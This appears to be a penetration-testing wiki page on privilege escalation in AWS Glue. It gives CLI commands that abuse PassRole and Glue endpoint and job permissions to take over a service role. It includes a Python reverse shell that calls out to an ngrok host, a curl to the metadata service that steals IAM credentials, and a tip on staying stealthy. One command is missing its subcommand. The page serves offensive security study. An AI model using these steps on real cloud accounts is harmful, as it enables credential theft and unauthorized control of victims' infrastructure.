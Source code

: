 # AWS - Glue Privesc

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with these permissions can **set up a new AWS Glue development endpoint**, **assigning an existing service role assumable by Glue** with specific permissions to this endpoint.

After the setup, the **attacker can SSH into the endpoint's instance**, and steal the IAM credentials of the assigned role:

```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
    --role-arn <arn-role> \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

For stealth purpose, it's recommended to use the IAM credentials from inside the Glue virtual machine.

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with this permission can **alter an existing Glue development** endpoint's SSH key, **enabling SSH access to it**. This allows the attacker to execute commands with the privileges of the endpoint's attached role:

```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

**Potential Impact:** Privesc to the glue service role used.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Users with **`iam:PassRole`** combined with either **`glue:CreateJob` or `glue:UpdateJob`**, and either **`glue:StartJobRun` or `glue:CreateTrigger`** can **create or update an AWS Glue job**, attaching any **Glue service account**, and initiate the job's execution. The job's capabilities include running arbitrary Python code, which can be exploited to establish a reverse shell. This reverse shell can then be utilized to exfiltrate the **IAM credential**s of the role attached to the Glue job, leading to potential unauthorized access or actions based on the permissions of that role:

```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateJob`

Just with the update permission an attacked could steal the IAM Credentials of the already attached role.

**Potential Impact:** Privesc to the glue service role attached.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

